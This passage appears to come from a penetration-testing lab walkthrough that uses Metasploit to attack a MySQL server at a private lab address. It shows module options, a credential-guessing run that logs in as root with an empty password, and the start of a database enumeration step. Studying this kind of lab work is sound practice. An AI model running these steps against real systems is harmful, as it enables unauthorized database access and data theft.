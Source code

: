 ```
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             3306             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          root             no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 6. Run the exploit

`run`

```
[+] 192.168.8.142:3306    - 192.168.8.142:3306 - Found remote MySQL version 5.0.51a
[+] 192.168.8.142:3306    - 192.168.8.142:3306 - Success: 'root:'
[*] 192.168.8.142:3306    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 7. Run MySQL enumerator to get info from database server

This will enable the collection from the database.

`use auxiliary/admin/mysql/mysql_enum`

`options`

```
Module options (auxiliary/admin/mysql/mysql_enum):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     3306             yes       The target port (TCP)
   USERNAME                   no        The username to authenticate as
```
